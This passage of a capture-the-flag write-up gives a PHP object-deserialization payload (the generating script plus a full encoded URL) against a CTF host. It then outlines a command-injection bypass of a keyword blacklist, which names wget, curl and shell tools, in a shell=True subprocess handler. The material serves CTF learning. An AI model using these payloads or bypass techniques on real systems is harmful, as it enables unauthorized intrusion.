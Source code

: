 ```php
    public $name;
    public $expected_R;
    public $expected_G;
    public $expected_B;
    public $input_R;
    public $input_G;
    public $input_B;
}

$obj = new IntuitionTest();
$obj->name = "ganteng"; 

$obj->expected_R = 0;
$obj->expected_G = 0;
$obj->expected_B = 0;

$obj->input_R = &$obj->expected_R;
$obj->input_G = &$obj->expected_G;
$obj->input_B = &$obj->expected_B;

$payload = base64_encode(serialize($obj));

echo $payload, "\n";
```
payload:

`http://chall-ctf.ara-its.id:8008/index.php?i=TzoxMzoiSW50dWl0aW9uVGVzdCI6Nzp7czo0OiJuYW1lIjtzOjc6ImdhbnRlbmciO3M6MTA6ImV4cGVjdGVkX1IiO2k6MDtzOjEwOiJleHBlY3RlZF9HIjtpOjA7czoxMDoiZXhwZWN0ZWRfQiI7aTowO3M6NzoiaW5wdXRfUiI7UjozO3M6NzoiaW5wdXRfRyI7Ujo0O3M6NzoiaW5wdXRfQiI7Ujo1O30===`

![{B7AD38BD-DEF0-4648-A64A-12CC9ED7F735}](https://hackmd.io/_uploads/H10AnlIKkx.png)


### El-Kebanteren
![{121F1A69-C463-4A09-814C-8917515B08C9}](https://hackmd.io/_uploads/S1YPE3rtyx.png)

command injcetion race condition (?)

there is command injcetion vuln in this func with blacklisted. and there is a command that rm the file generated every 0.5s.

to bypass the blacklist sets two shell variables so that flag.$a$b becomes “flag.txt” without ever writing the literal substring “txt” in the payload.
and use dd because it not blacklisted
```
        blacklist = [
        "ls", "cat", "rm", "mv", "id", "cp", "wget", "curl", "chmod", "chown", "find", "ps",
        "grep", "awk", "sed", "bash", "sh", "python", "perl", "php", "sudo", "whoami",
        "vi", "vim", "nano", "info", "uname", "more", "head", "less", "tail", "txt", "&&", "|", "`", "$(", ">", "<", "&", "'", '"', "*", "\n"
        ]

        if any(word in inputed for word in blacklist):
            return render_template('quotes.html', quotes=random_quote, inputed=inputed)

        process = subprocess.run(inputed, shell=True, capture_output=True, text=True)
        output = process.stdout

        get_date_minute = datetime.now().strftime('%Y%m%d%H%M')
        random_number = binascii.hexlify(get_date_minute.encode()).decode()
        file_name = f'{random_number}.txt'
        file_path = os.path.join(QUOTE_DIR, file_name)
        with open(file_path, 'w') as f:
            f.write(random_quote + '\n')
```